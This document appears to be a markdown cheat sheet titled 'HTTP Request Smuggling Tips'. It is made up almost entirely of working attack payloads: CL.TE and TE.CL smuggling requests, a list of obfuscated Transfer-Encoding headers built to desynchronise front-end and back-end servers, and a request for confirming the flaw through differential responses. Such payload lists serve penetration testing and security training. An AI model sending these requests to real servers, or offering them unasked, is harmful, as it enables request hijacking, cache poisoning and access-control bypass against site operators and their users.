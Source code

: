 # HTTP Request Smuggling Tips

## CL.TE Payload
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

## TE.CL Payload
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


```

## Obfuscate TE header
```
Transfer-Encoding: xchunked
```

```
Transfer-Encoding : chunked
```

```
Transfer-Encoding: chunked
Transfer-Encoding: x
```

```
Transfer-Encoding:[tab]chunked
```

```
[space]Transfer-Encoding: chunked
```

```
X: X[\n]Transfer-Encoding: chunked
```

```
Transfer-Encoding
: chunked
```

## Confirming CL.TE vulnerabilities using differential responses
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```
